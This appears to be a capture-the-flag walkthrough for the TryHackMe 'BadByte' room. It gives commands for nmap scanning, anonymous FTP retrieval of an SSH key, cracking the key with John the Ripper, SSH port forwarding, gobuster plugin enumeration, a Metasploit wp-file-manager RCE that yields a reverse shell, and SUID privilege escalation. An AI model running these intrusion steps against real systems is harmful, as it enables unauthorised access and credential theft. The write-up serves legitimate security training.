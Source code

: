 # [Badbyte][1]
Infiltrate BadByte and help us to take over root.


### [Task 2] Reconnaissance

In this task:

- First scan which ports are open on the box: `nmap -p-  -vv MACHINE_IP`
- Then after finding the ports number, enumerate what services are running on those port: `nmap -A -p port1,port2,port3 MACHINE_IP`

> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

![Nmap Scan](images/open_ports.jpg)

These questions can be answered using the above results.

### [Task 3] Foothold

 Hmm, crack the passpharse, but where is it? I think the creator forgot to give us the link?!

 Oops! There is a `FTP` port open, lets check that. Connect to the machine using `ftp <IP> 30024` with credentials `anonymous:anonymous`

 ![FTP Connection](images/ftp_connection.jpg)

 Check what files do we have here!

 ![File Listing](images/ftp_ls.jpg)
> Ohhh! the creator was talking about this `note.txt`. There is one more file, seems like `private_key` for ssh connection. SWEET!

Use `get` command to get those two files. Syntax is `get <source> <destination>`.

![Get Files](images/get_files.jpg)

Now that we have the file, let's first check the content of the `note.txt`

![Content of NOTE](images/notes_file.jpg)
> Seems like we have a user `errorcauser`. Well thanks for forgetting your password and keeping a copy here.

As the `port 22` is open. Let's connect via `ssh`.

![SSH Try](images/need_pass.jpg)
> Seems like, it needs a password :cry:

JohnTheRipper to RESCUE.
1. Convert `id_rsa` into `hash` using -> `python3 /usr/share/john/ssh2john.py id_rsa > hash`
2. `john hash -w=rockyou.txt`

![Crack Password](images/ssh_crack.jpg)

Seems like we have a password. Let's connect.

*What username do we find during the enumeration process?*
> ***errorcauser***

*What is the passphrase for the RSA private key?*
> Result from JohnTheRipper.

### [Task 4]  Port Forwarding

First add the `socks4 127.0.0.1 9050`, if it is not already in `/etc/proxychains.conf`

Dynamic Port Forwarding can be setup using :
`ssh -D 9050 errorcauser@<IP> -i id_rsa`

Fireup another terminal and scan the machine using `nmap`. This can be achieved using: `sudo proxychains nmap -sT -Pn localhost`.

![Scan Result](images/internal_scan.jpg)

These questions can be answered using above scan result.

Local Port forwarding can be done using: `sudo ssh -i id_rsa -N -L 8080:127.0.0.1:80 errorcauser@<IP>`


### [TASK 5] Web Exploitation

Let's go to `localhost:8080`. It a good looking website.

![Website](images/got_website.jpg)

To know about CMS and what it is, check this [Reference][3].

*What CMS is running on the machine?*
![First Post](images/first_post.jpg)
> Check the first post and its seems like its ***WordPress***.

To get the plugins, I use `gobuster` to enumerate for valid plugins. In wordpress, plugins are in directory `/wp-content/plugins/` and there is a very good plugins wordlist -> `usr/share/metasploit-framework/data/wordlists/wp-plugins.txt`

CMD -> `gobuster dir -u http://127.0.0.1:8080/wp-content-plugins/ -w usr/share/metasploit-framework/data/wordlists/wp-plugins.txt`

![GoBuster Results](images/gobuster.jpg)

We have three plugins:
- akismet
- duplicator
- wp-file-manager

You can get the version by `http://localhost:8080/wp-content/plugins/<plugin_name>/readme.txt`

To know more about the enumeration for WordPress, I used this [Reference][4].

*What is the CVE number for directory traversal vulnerability?*
> Go to [CVE Mitre][5] website and search for `wordpress duplicator`. You will get the CVE number. Make sure to check the HINTS for this one.

*What is the CVE number for remote code execution vulnerability?*
> Search for `wordpress wp-file` in `searchsploit`

![Search Results](images/search_file_manager.jpg)
> There is one which can be use for **RCE**.

Check the file using: `cat /usr/share/exploit-db/exploits/php/webapps/49178.bash | head`

![CVE Results](images/cat_cve.jpg)

*There is a metasploit module for the exploit. You can use it to get the reverse shell. If you are feeling lucky you can follow any POC( Proof of Concept).*
> Start Metasploit using `msfconsole` and search using `search wordpress wp-file`.

![Metasploit](images/metasploit.jpg)

Type `use 0`.

Set all the options like `RHOSTS`, `RPORT` and `LHOST`.

![Options](images/options.jpg)

Type, `run` and BAAM got the meterpreter connection.

![Got Access](images/got_access.jpg)

*What is the name of user that was running CMS?*
> Go to `/home` using `cd /home` and do `ls` to get the users.

![User](images/user.jpg)

*What is the user flag?*
> Go to the user's directory and type `cat user.txt`.

![User Flag](images/user_flag.jpg)

### [Task 6]  Privilege Escalation

LOGGING is ON!

There is `.bash_history` file. Download it using `download .bash_histroy` and check the file. It didn't worked for me.

So I looked around in `/var/log/` directory and found `bash.log`. Read the file using `cat bash_log`

![BASH LOG](images/bash_log.jpg)

You will get the old password.

*What is the user's new password?*
> Read the description properly and you can guess the new password. I believe in you :grin:

Now we have the password and username. We can connect using `ssh`

![Login](images/login.jpg)

For basic enumeration start with `sudo -l` command or find `SUIDs`.

Or you can use `linpeas.sh`. Send the file using `scp`

![LinPeas](images/linpeas.jpg)
> Run the file by `./linpeas.sh`. This will do all the work for you.

For now I will do it manually, to find SUIDs use `find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;`

![SUIDs](images/suids.jpg)

Go to [GTFOBins][6] Website and search the commands.

This can be done using `mount`.
![MOUST SUID](images/mount.jpg)

Or `pkexec`

![PKEXEC SUID](images/pkexec.jpg)

Or simple `su`command

![Root User](images/root_user.jpg)

*What is the root flag?*
> You know what to do :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/badbyte
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://securitytrails.com/blog/cms-detector
[4]: https://hackertarget.com/attacking-wordpress/#directory-indexing
[5]: https://cve.mitre.org/cve/search_cve_list.html
[6]: https://gtfobins.github.io/
